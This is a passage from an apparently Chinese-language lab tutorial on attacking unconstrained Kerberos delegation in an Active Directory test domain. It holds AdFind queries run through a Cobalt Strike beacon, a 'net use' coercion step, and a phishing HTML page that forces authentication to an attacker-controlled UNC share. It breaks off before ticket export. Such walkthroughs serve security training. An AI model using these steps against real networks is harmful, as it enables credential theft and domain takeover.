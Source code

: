   ![截图](fcef3e790e8c858564f94bc3d262fa58.png)
- 输入命令：
  ```shell
  setspn -U -A priv/test webadmin
  ```

![截图](8d4bb71f3e4df56b1c111d17ece6ac97.png)

### 攻击过程：

#### 1）探测与查询

我们首先需要进行域内的探测与查询，确定是否设置了非约束性委派的服务：

(这里，我们事先把webserver上线在cs中，并将adfind上传到webserver中）

- 查询域内设置了非约束委派的服务账户：

```shell
shell AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```

![截图](07ae8ea559aea2f3d8dde150532c64eb.png)

- 查询域内设置了非约束委派的机器账户:

```shell
shell AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```

![截图](6ad1a85afdb2192a69c0489faa9f982f.png)

#### 2）流程

1、首先，我们需要域控主动的与委派机器通讯：（在DC的机子上输入命令）

```shell
net use \\webserver
```

![截图](a3519e51a73fc4e36b8548562299b827.png)

（当然，我们最好是设置钓鱼页面： http://192.168.3.31/31.html）

```html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.31\2">
</body>
</html>
```
{: file='31.html'}
2、导出票据：
